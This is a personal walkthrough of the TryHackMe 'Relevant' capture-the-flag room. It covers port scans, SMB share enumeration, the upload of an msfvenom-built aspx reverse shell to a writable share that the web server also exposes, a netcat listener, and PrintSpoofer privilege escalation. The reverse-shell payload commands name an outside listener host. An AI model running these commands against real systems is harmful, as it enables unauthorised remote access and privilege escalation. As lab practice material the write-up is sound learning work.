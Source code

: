 # Relevant

# Recon

nmap -sV IP
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services

nmap -sV -p 0-65353 10.10.82.109
gobuster dir -u http://10.10.82.109/ -w common.txt = No results
enum4linux 10.10.82.109


nmap --script smb-os-discovery.nse -p445 10.10.82.109:
```
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T22:06:35-07:00

nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 10.10.82.109    :

Host script results:
| smb-enum-sessions: 
|_  <nobody>
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.82.109\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.82.109\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.82.109\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.82.109\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 78.07 seconds
	
```


smbmap -u nt4wrksv -H 10.10.82.109 -r nt4wrksv (Read the directory)


(Smbmap guide)[https://www.nopsec.com/blog/smbmap-wield-it-like-the-creator/]
smbmap -u nt4wrksv -H 10.10.82.109 -r nt4wrksv -A 'pass'

Bill - REDACTED	
Bob - REDACTED

Bobs & Bill's credentials may be valid but they do not help get into the box.
	

gobuster dir -u http://10.10.82.109/ -w common.txt = No results


After being completely stuck I looked at the offical room walkthrough/the creators youtube video and then realized that there are more than five ports open on the machine...
	
	
nmap -p- 10.10.87.37 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 16:44 EDT
Nmap scan report for 10.10.87.37
Host is up (0.22s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown

## Foothold/Exploitation

```
gobuster dir -w common.txt -u http://10.10.223.172:49663/
/aspnet_client        (Status: 301) [Size: 164] [--> http://10.10.223.172:49663/aspnet_client/]
/nt4wrksv             (Status: 301) [Size: 159] [--> http://10.10.223.172:49663/nt4wrksv/]
I modified common.txt from sec lists to include nt4wrksv in the wordlist as the list the author uses is 25,000 lines.
```

Anyway now that we know the nt4wrksv may be linked to the smb directory perhaps we can upload an aspx shell. Asp will not work!
	
```
smbmap -u nt4wrksv -H 10.10.147.160 -r nt4wrksv --upload 'shell.aspx' 'nt4wrksv\shell.aspx'
	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx (Returned 503 http service error)
	
smbclient --no-pass //10.10.147.160/nt4wrksv
	
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.18 LPORT=4445 -f aspx > testing.aspx (Worked)
```


nc -nlvp 4445
http://10.10.20.214:49663/nt4wrksv/testing.aspx
Use the browser to run the reverse shell

## Post Exploitation

whoami /priv
^ Hacktricks
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
smb upload printspoofer

The PrintSpoofer exploit in the hacktricks repository did not work. The room creator uploaded the exploit in their repo (PrintSpooler)[https://github.com/dievus/printspoofer/].
	

Extract both of the flags & submit!
	
### Things learned:
* Scan all the ports
* The most obvious route might not work
* smb uploads are possible
